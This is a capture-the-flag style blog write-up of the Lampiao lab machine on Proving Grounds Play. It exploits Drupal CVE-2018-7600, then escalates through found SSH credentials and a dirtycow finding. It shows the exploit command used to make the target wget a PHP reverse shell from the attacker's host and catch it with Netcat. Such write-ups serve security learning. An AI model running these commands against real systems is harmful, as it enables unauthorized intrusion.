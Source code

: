 ```yaml
---
layout: single
title: Lampiao - Proving grounds Play
date: 2023-13-06
classes: wide
header:
  teaser: /assets/images/linux.png
categories:
  - provinggrounds
  - infosec
tags:
  - provinggrounds
  - linux
  - drupal
  - dirtycow
  - kernel
---
```


## Linux

![](/assets/images/linux.png)

This blog post is a writeup of the Lampiao machine from Proving grounds play.

### Summary
------------------
- The webserver has a vulnerable Drupal version to RCE.
- We access exploiting this vulnerability.
- We are able to find credentials which allows us to login with a higher privileged user than www-data.
- The Linux kernel version it's vulnerable to dirtycow.
- Exploiting this dirtycow vulnerability allows us to gain access as root user.
### Detailed steps
------------------

### Enumeration

There's a webserver, a SSH service and another interesting open port (1898) running on this box.

![nmap1](D:\Alex\ESTUDIOS\OSCP\Lorealex.github.io\assets\images\pg-play-lampiao\1.JPG)

Let's take a closer look at these ports with Nmap.
 ```
 nmap -A 192.168.201.48 -p 22,80,1898 -o nmap_lampiao.txt
 ```
![nmap2](D:\Alex\ESTUDIOS\OSCP\Lorealex.github.io\assets\images\pg-play-lampiao\2.JPG)


As we can see in the last picture, the 1898 port it's running an HTTP service. Nmap HTTP enum returns some interesting files as CHANGELOG.TXT

CHANGELOG.txt it's a common file in Drupal which shows the current version.
In this case the current version it's `7.54`.

![changelog](D:\Alex\ESTUDIOS\OSCP\Lorealex.github.io\assets\images\pg-play-lampiao\5.JPG)


`Drupal 7.54` it's vulnerable to a remote code execution as we can see in `CVE-2018-7600` --> https://www.drupal.org/sa-core-2018-002
To exploit this vulnerability I used the following python code --> https://github.com/pimps/CVE-2018-7600

The first step was to check the vulnerability. I successfully executed the exploit with `id` command.
 ```
 python3 drupa7-CVE-2018-7600.py http://192.168.201.48:1898 -c id
 ```

![exploit1](D:\Alex\ESTUDIOS\OSCP\Lorealex.github.io\assets\images\pg-play-lampiao\6.JPG)


Now, in order to gain access to the victim's machine, I uploaded a PHP revershell to the webserver.

Configuring the webshell:
![shell1](D:\Alex\ESTUDIOS\OSCP\Lorealex.github.io\assets\images\pg-play-lampiao\7.JPG)

After configuring the webshell, I opened an HTTP server on my Kali machine with python in my webshell directory:
 ```
 python3 -m http.server 443
 ```

To upload the webshell I used the python exploit to execute a wget command on the victim's machine:
 ```
 python3 drupa7-CVE-2018-7600.py http://192.168.201.48:1898 -c "wget http://192.168.45.177:443/php-reverse-shell.php"
 ```
![exploit2](D:\Alex\ESTUDIOS\OSCP\Lorealex.github.io\assets\images\pg-play-lampiao\8.JPG)


At this point, I was able to access to my webshell on victim's machine and capture the shell running a Netcat listener.
![shell2](D:\Alex\ESTUDIOS\OSCP\Lorealex.github.io\assets\images\pg-play-lampiao\10.JPG)

![shell3](D:\Alex\ESTUDIOS\OSCP\Lorealex.github.io\assets\images\pg-play-lampiao\9.JPG)


Having access to www-data user I was able to find the first flag:
![userflag](D:\Alex\ESTUDIOS\OSCP\Lorealex.github.io\assets\images\pg-play-lampiao\userf.jpg)



### Privilege scalation

To elevete my privileges I used Linpeas.sh --> https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS

Linpeas found the following files with an interesting credentials:
![creds](D:\Alex\ESTUDIOS\OSCP\Lorealex.github.io\assets\images\pg-play-lampiao\15.JPG)

This credentials allowed me to log in via SSH with "tiago" user
![shell3](D:\Alex\ESTUDIOS\OSCP\Lorealex.github.io\assets\images\pg-play-lampiao\18.JPG)


Linpeas found a kernel vulnerability too:
```
[+] [CVE-2016-5195] dirtycow 2

   Details: https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
   Exposure: highly probable
   Tags: debian=7|8,RHEL=5|6|7,[ ubuntu=14.04|12.04 ],ubuntu=10.04{kernel:2.6.32-21-generic},ubuntu=16.04{kernel:4.4.0-21-generic}
   Download URL: https://www.exploit-db.com/download/40839
   ext-url: https://www.exploit-db.com/download/40847
   Comments: For RHEL/CentOS see exact vulnerable versions here: https://access.redhat.com/sites/default/files/rh-cve-2016-5195_5.sh
```